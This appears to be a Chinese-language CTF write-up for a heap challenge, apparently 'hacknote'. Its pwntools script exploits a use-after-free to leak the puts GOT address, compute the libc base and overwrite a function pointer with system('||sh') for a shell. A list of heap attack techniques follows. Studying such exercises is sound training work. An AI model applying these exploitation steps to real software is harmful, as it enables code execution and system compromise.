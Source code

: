 ```python
def show(index):
	p.recvuntil("Your choice :")
	p.sendline('3')
	p.recvuntil("Index :")
	p.sendline(str(index))
  
#基本思路：
#add->add->delete
#use after Free
#leak the put_got
#ret2libc
Add(16,"target")
Add(16,"bridge")
Delete(0)
Delete(1)
#此时虽然free了0和1的节点，但是我们仍然能够show（0）和show（1），因为没有清空地址内对应的数据，这就是UAF漏洞所在

payload_got= p32(puts_func_addr)+p32(puts_got)
Add(8,payload_got)
#申请八字节，因为note_list里面存放了print_self函数指针和chunk指针，一共是八字节，我们想要申请到之前free的堆块就要八字节，实验了一下不超过12字节都可以？？？可能是因为堆块大小对齐吧果然还是没学踏实，这里留个小疑问。。。
show(0)
#实际调用的是puts函数，打印了puts函数got表
#可以计算出libc基址

libc_base= u32(p.recv(4))-libc.sym['puts']
sym_add = libc_base + libc.sym["system"]
Delete(2)
payload_getsh= p32(sym_add) + b"||sh" 
Add(8,payload_getsh)
show(0)
p.interactive()

```

![hacknote5](F:%5CPWN%5Chacknote5.png)通关合影！！

**1.二次释放**

**2.unlink技术利用**

**Unlink机制**

1. Fastbin & Tcache Unlink：Fastbin & Tcache是使用单链接的LIFO列表。从这些列表中解链接块只需要将 “victim” chunk 的fd复制到列表的头部
2. Partial Unlink：A partial unlink occurs when a chunk is allocated from an unsortedbin or smallbin
3. Full Unlink：当一个块被合并成另一个free chunk时会发生Full Unlink，或者在largebin中binmap搜索中分配块时发生

**3.释放后重引用漏洞**

**4.fast binattack利用**

**5.house of 系列利用**

**6.unsorted bin attack利用**
